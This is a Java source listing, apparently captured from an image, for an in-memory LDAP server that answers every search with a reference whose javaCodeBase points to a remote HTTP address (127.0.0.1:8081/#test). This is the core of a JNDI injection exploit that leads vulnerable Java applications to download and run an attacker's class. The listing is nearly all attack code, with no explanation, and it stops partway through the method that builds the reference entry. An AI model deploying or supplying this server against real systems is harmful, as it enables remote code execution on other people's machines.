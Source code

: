 ```

public class server {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8081/#test"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
```